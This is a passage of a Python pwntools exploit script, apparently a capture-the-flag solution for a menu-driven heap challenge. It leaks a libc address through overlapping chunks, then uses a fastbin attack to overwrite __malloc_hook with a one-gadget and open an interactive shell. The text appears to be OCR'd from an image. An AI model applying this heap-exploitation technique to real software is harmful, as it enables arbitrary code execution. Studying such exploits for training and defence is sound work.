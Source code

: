 	        s.sendline('3')
	        s.recvuntil('Index: ')
	        s.sendline(str(index))
	def dump(index):
	        print ("dump [%d]" %index)
	        s.recvuntil('Command: ')
	        s.sendline('4')
	        s.recvuntil('Index: ')
	        s.sendline(str(index))
	        s.recvuntil('Content: ')
	for i in range(4):
	        alloc(0x20)
	
	alloc(0x100) # 4
	alloc(0x20) # 5
	
	free(1)
	free(2)
	
	fill(0,0x61,'\x00'*0x28+ p64(0x31) + '\x00'*0x28 + p64(0x31) + '\xc0')
	fill(3,0x2a,'\x00'*0x28+'\x31\x00')
	
	alloc(0x20) # 1
	alloc(0x20) # 2
	
	fill(3,0x2a,'\x00'*0x28+'\x11\x01')
	free(4)
	
	dump(2)
	
	s.recv(8)
	leak = hex(u64(s.recv(8)))[:-2]
	libc_base = int(leak,16)-0x3c3b78-0x1000#104
	malloc_hook = hex(int(leak,16)-104)#104
	oneshot = hex(libc_base + one)
	malloc_hook_near = int(malloc_hook,16)-0x10-19
	log.info("malloc hook %s " %malloc_hook)
	log.info("oneshot %s " %oneshot)
	print "near :",hex(malloc_hook_near)
	
	alloc(0x100) # 4
	
	
	for i in range(3):
	        alloc(0x60)
	free(6)
	free(7)
	
	fill(5,0xa8,'\x00'*0x28+ p64(0x71) + '\x00'*0x68 + p64(0x71) + p64(malloc_hook_near))
	
	alloc(0x60) # 6
	alloc(0x60) # 7
	
	fill(7,27,'\x00'*(19)+p64(int(oneshot,16)))
	
	alloc(0x20)
	
	s.interactive()
